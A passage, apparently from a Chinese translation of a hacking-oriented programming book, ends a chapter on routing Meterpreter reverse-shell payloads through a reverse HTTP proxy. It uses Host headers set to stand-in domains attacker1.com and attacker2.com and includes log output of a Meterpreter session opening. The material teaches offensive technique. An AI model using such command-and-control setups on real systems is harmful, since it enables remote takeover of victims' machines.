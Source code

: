 ```text
生成了两个文件：*payload1.exe* 和 *payload2.exe 。请注意，除了文件名之外，两者之间的惟一区别是 `HttpHostHeader` 值。这确保产生的负载使用特定的Host报头发送HTTP请求。也要注意，LHOST 和 LPORT 的值对应于反向代理的信息，而不是Meterpreter监听器。将生成的可执行文件传输到Windows系统或虚拟机。当执行该文件时，会有两个新的 sessions 创建：一个绑定在10080端口的监听器，一个是绑定在20080端口的监听器。应该是下面这样：

```shell script
>
[*] http://10.0.1.20:10080 handling request from 10.0.1.20; (UUID: hff7podk) Redirecting stageless connection from /pxS_2gL43lv34_birNgRHgL4AJ3A9w3i9FXG3Ne2-3UdLhACr8-Qt6QOlOw PTkzww3NEptWTOan2rLo5RT42eOdhYykyPYQy8dq3Bq3Mi2TaAEB with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0;
rv:11.0) like Gecko'
[*] http://10.0.1.20:10080 handling request from 10.0.1.20; (UUID: hff7podk) Attaching orphaned/stageless session...
[*] Meterpreter session 1 opened (10.0.1.20:10080 -> 10.0.1.20:60226) at 2020-07-03 16:13:34 -0500
```

如果使用tcpdump或Wireshark查看发送到端口10080或20080的网络流量，应该看到，反向代理是与Metasploit监听器通信的唯一主机。还可以确认Host报头被适当地设置为 `attacker1.com` （用于端口10080上的监听器）和 `attacker2.com` （用于端口20080上的监听器）。

就是这样。做到了！现在提高一点。作为练习，我们建议您更新代码以使用分段的负载。这可能会有额外的挑战，因为需要确保这两个阶段都正确地路由到代理。此外，尝试通过使用HTTPS而不是明文的 HTTP来实现。这将提高您在以有用、恶意的方式在代理流量方面的理解和有效性。

## 总结

在前两章中通过实现客户端和服务端完成了HTTP之旅。在下一章，将专注于DNS，这是一种对安全从业人员同样有用的协议。实际上，几乎复制这个HTTP多路复用示例来使用DNS。

